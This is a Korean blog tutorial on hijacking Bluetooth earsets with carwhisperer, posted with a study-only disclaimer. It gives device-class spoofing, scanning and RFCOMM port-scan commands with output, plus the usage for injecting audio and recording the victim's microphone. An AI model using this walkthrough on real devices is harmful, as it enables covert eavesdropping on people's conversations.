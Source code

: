 ```yaml
---
date: 2013-03-18 19:09:00 +0900
title: 블루투스 이어폰 해킹하기
categories: [Research, bluetooth]
tags: [research, bluetooth, hacking]
---
```

---
**:: WARNING ::**

이 포스트는 개인 공부를 위해 게시된 글입니다. 악의적으로 이용시 모든 책임은 당사자에게 있으며 작성자는 책임을 지지 않겠습니다.

---

## 0x01. 블루투스 환경
1) Hacker : Bluetooth-v2.1 (os : kali linux)  
2) Victim - Earset : Bluetooth-v3.0  
3) SmartPhone : Bluetooth-v4.0

## 0x02. Command & Tool
1) hciconfig
    > local블루투스에 관한 정보를 출력 또는 수정  

2) hcitool
   > 특정 장치로 command를 전송하고나 설정을 하는 명령어

3) hcidump
   > 블루투스패킷을 잡는 명령어입니다.(블루투스패킷은 wireshark로 잡히지 않아서 이 명령어를 사용)  

4) l2ping
   > l2cap을 이용하여 상대 장비에게 ping을 보내는 명령어

5) rfcomm
   > rfcomm프로토콜에 관해 설정하는 명령어  

6) sdptool
   > 특정 장비에서 지원하는 서비스 목록을 볼수 있습니다.  

7) carwhisperer
   > 핸드프리 블루투스 카 키트를 지원하는 자동차를 대상으로 하는 공격입니다.
   > ~~이 글에서는 carwhisperer대신 이 코드를 수정한 poc툴을 쓰겠습니다.~~ (별 차이 없으니 carwhisperer을 쓰셔도 모두 막힘이 없습니다.)  
   > - 다운로드 : [Link](http://trifinite.org/Downloads/carwhisperer-0.2.tar.gz)


## 0x03. Basic about Bluetooth
1) 블루투스란?
   - 저전력을 이용한 근거리 무선통신(기본 10m이고 옵션이 가해지면 100m까지 통신)

2) 블루투스 프로토콜 구조

    ![bluetooth-protocol-struct](/posts/bluetooth-structures.jpeg)

    - HCI(Host Controller Inerfae) :: 하드웨어 접근제어  
    - L2CAP :: 상위프로토콜과 하위프로토콜 사이 중재역할을합니다.
    - SDP :: 블루투스가 어떠한 서비스가 가능한지 출력합니다.  
    - RFCOMM :: RS-232(_시리얼통신 인터페이스 표준_) 시리얼포트를 에뮬레이션합니다.


3) Pairing(페어링)
- 두개의 장치가 서로를 인증한 후 Connection하는 과정. 이 과정에서 pin 인증  
- 이 글에서 사용한 블루투스 이어셋은 검색만 허용된다면 PIN인증 없이 연결이 됩니다.

## 0x04. Scenario

1) 해커의 반경안에 블루투스 이어셋을 이용하는 사용자가 있다.

2) 해당 이어셋에 공격을 가하고, 사용자의 이어셋에는 해커가 준비한 음성파일이 흘러나온다.

3) 또 사용자가 이어셋의 마이크로 말하는 내용은 해커 컴퓨터에 저장된다.

## 0x05. Attack

```bash
hciconfig hci0 up    #    블루투스 on
hciconfig hci0 class 0x50040c    #노트북을 스마트폰으로 인식시키기 위한 설정명령어
                                   #class정보는 hciconfig -a를 입력하면 출력된다.
```

여기서 class를 CoD(Class of Device)라고 한다.
- Bluetooth Class of Device/Service (CoD) Generator  
- Link: [CoD Generator](http://bluetooth-pentest.narod.ru/software/bluetooth_class_of_device-service_generator.html)

![bluetooth-hciconfig](/posts/bluetooth-hciconfig.jpeg)
- 주변의 블루투스 장치를 찾습니다. 단, `검색허용`이 된 장치에 한해서 검색이 됩니다.
    ```bash
    hcitool scan  
        Scanning ...  
        9C:3A:AF:A7:40:65    HM1200
    ```

- rfcomm.py 스크립트를 이용하여 'HM1200'장치에 열린 포트를 검색하겠습니다.
   ```bash
    # ./rfcommScan.py 9C:3A:AF:A7:40:65  
    [+] RFCOMM Port 1 open  
    [+] RFCOMM Port 2 open  
    [+] RFCOMM Port 3 open  
    [+] RFCOMM Port 4 open
    ```

- 자, 모든 정보를 획득했으니 마지막 작업을 해보겠습니다.
    ```plain
    carwhisperer <hci#> <message> <recored> <bdaddr> \[channel\]

    message : 전송할 음성파일인데 확장자가 raw여야 합니다.

    record    : 이어셋의 마이크에서 전송되는 데이터입니다. 저장은 raw로 하시고 음성파일 확장자로 변경하시면 끝!

    bdaddr    : 피해자 블루투스의 mac주소가 되겠습니다.

    channel    : Open된 RFCOMM 채널을 입력하면 되고, 입력을 하지 않을경우 1로 입력이 됩니다.
    ```

![bluetooth-poc](/posts/bluetooth-poc.jpeg)

위의 과정을 제대로 수행하셨다면 별다른 착오없이 공격이 성공했을 것입니다.  
아래의 사진은 hcidump로 캡처한 패킷들이고, 공격중에 많은 패킷이 오가는 것을 보실수 있습니다.

![bluetooth-packet-capture](/posts/bluetooth-packet-caputre.jpeg)

## 0x06. End
오랜만에 긴글 쓰려니 힘들긴 한데, 나름 재밌는 주제였습니다. 사실 처음 블루투스에 접근한 계기는 좀더 화려했으나 그 길을 가는 도중에 맨붕이 와서 일단 여기까지만 블로깅했습니다. 혹시 잘못된점이나 잘 안되는점, 또 궁금한점이 있으면 글남겨주세요. 바로바로 확인하겠습니다 :)